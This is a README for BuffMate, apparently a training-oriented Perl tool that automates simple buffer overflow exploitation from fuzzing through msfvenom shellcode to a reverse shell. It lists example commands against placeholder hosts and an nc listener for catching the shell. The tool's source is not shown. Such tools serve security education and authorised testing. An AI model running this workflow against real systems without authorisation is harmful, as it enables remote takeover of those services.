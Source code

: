 # BuffMate

Note: This tool is a work in progress, as I learn more about buffer overflows. Buffmate currently only works as an all-in-one solution with certain buffer overflows, matching the following conditions:

* Overflow is triggered by an optional string/command, followed by a buffer of "A"s.
* 400+ bytes is available for shellcode after the EIP address is overwritten (the "C" part of the buffer).
* Testing for bad characters can be performed in the "C" part of the buffer.
* The application crashes predictably when the "C" buffer length is changed.

BuffMate is a Perl utility that assists in the process of creating simple buffer overflow exploits. The entire process from fuzzing to exploitation is streamlined into one tool. Only core Perl modules are utilized for mobility and speed.

Certain offensive dependencies are required, such as metasploit-framework and msfvenom. It is recommended that you run this tool on a Kali system which includes these tools.

## Help
```
BuffMate - Perl Buffer Overflow Tool | Steve Collmann - stevcoll@gmail.com

Options:
   -m, --mode            Program mode. See "Modes" below for details.
   -l, --local           Local client address and port (IPv4), colon delimited.
   -r, --remote          Remote server address and port (IPv4), colon delimited.
   -s, --string          String to send before buffer. Multiple strings supported. Optional.
   -o, --offset          Loose offset from fuzzing or exact offset from EIP byte match.
   -b, --bad             Bad character to exclude in payload. Multiple parameters supported.
   -j, --jump            Memory jump return address. Automatically converted to little endian.
   -i, --increment       Step increment for fuzzer. Default: 200 bytes.
   -v, --verbose         Show remote server responses to socket sends.

Examples:
   ./buffmate.pl -m 1 -r 10.0.0.1:80 -s "PWD "                     ## Fuzz remote server
   ./buffmate.pl -m 2 -r 10.0.0.1:80 -s "PWD " -o 140              ## Locate EIP offset
   ./buffmate.pl -m 3 -r 10.0.0.1:80 -s "PWD " -o 136              ## Verify EIP offset
   ./buffmate.pl -m 4 -r 10.0.0.1:80 -s "PWD " -o 136 -b \x15      ## Test and remove bad chars
   ./buffmate.pl -m 5 -r 10.0.0.1:80 -s "PWD " -o 136 -j 39D421E6  ## Test jump address
   ./buffmate.pl -m 6 -l 192.168.1.1:443 -b \x15 -b \x35           ## Generate shellcode
   ./buffmate.pl -m 7 -r 10.0.0.1:80 -s "PWD " -o 136 -j 39D421E6  ## Exploit server

Modes:
   * [1] Fuzzing  
     - Buffer can be sent with or without prepended strings (e.g. "AUTH ").
     - Multiple prepended strings can be sent (e.g. -s "USER " -s "PASS ").
     - Identify buffer size in bytes which causes an exception on service.
   * [2] EIP Match
     - Attach debugger to service and run tool with offset found in fuzzing mode.
     - Ensure prepended string option is used for all stages if required.
     - After service exception debugger should display unique EIP address.
     - Enter unique EIP address into tool and identify exact EIP offset.
   * [3] EIP Verify
     - Attach debugger to service and run tool with exact offset found in EIP match.
     - Verify EIP is overwritten with "B" or "\x42" characters.
     - Verify space for shellcode in "C" or "\x43" characters. (i.e. ~400 bytes).
   * [4] Char Test
     - Attach debugger to service and run tool with discovered offset.
     - Check debugger for evidence of bad characters corrupting the buffer.
     - Remove any bad characters with tool and rerun char test as appropriate.
   * [5] Jump Test
     - Utilize debugger to locate module with no memory protections.
     - Locate appropriate memory address to jump to in discovered module.
     - Ensure memory address contains no bad characters.
     - Attach debugger to service and set breakpoint at jump memory address.
     - Run tool with new jump address and bad char options.
     - Ensure debugger stops at breakpoint and execution redirects to "C" or "\x43".
   * [6] Generate Shellcode
     - Run tool with local (attacking) host and bad char options to generate shellcode.
     - Copy and paste enter $shellcode variable output into top of tool code.
   * [7] Exploit Server
     - Start service on local host with appropriate options (e.g. nc -vlnp 443).
     - Run tool with remote host, offset, jump address, and bad char options.
     - Reverse shell should appear on local host.
```

## Author
Steve Collmann, stevcoll@gmail.com
